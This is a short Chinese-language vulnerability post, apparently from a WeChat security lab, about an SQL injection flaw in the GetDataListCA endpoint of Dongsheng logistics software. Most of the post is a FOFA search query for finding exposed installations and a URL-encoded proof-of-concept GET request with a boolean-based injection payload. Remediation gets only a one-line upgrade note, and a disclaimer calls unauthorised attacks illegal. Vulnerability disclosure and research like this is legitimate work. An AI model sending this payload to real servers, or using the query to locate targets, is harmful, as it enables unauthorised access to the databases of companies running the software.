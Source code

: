 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk5MDYxODcwMA==&mid=2247483889&idx=1&sn=49db58752bf20b6e1a322dc5c9a9e614

#  东胜物流软件GetDataListCA接口存在SQL注入漏洞  
原创 zz  星络安全实验室   2025-07-13 12:19  
  
<table><tbody><tr><td data-colwidth="576"><span style="color: rgba(0, 0, 0, 0.9);font-family: &#34;PingFang SC&#34;, system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 16px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: 0.544px;orphans: 2;text-align: justify;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></span></td></tr></tbody></table>  
  
东胜物流软件是青岛东胜伟业软件有限公司一款集订单管理、仓库管理、运输管理等多种功能于一体的物流管理软件。该系统在GetDataListCA接口存在SQL注入漏洞，攻击者可以通过利用该漏洞获取数据库等敏感信息。  
  
漏洞复现：  
  
fofa：  

```
body=&#34;FeeCodes/CompanysAdapter.aspx&#34; || body=&#34;dhtmlxcombo_whp.js&#34; || body=&#34;dongshengsoft&#34; || body=&#34;theme/dhtmlxcombo.css&#34;
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFsUmaichQ0ETnWOWZgMXiarriaexSG1dEibEr2K9BibTo59CHdBbKbxeibMK1A/640?wx_fmt=png&from=appmsg "")  
  
poc：  

```
GET /MvcShipping/MsCwGenlegAccitems/GetDataListCA?PACCGID=%31%27%29%20%41%4e%44%20%28%53%45%4c%45%43%54%20%43%41%53%45%20%57%48%45%4e%20%28%36%37%38%32%3d%36%37%38%32%29%20%54%48%45%4e%20%31%20%45%4c%53%45%20%30%20%45%4e%44%29%3d%31%20%2d%2d HTTP/1.1
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFs4EmiasrHYhWbmpXIzibjibURhjfpjN3NnQicF8cdsc4iagzstnZ88UYicDhQ/640?wx_fmt=png&from=appmsg "")  
  
修复详情：  
  
关注厂商动态，升级至安全版本  
  
  
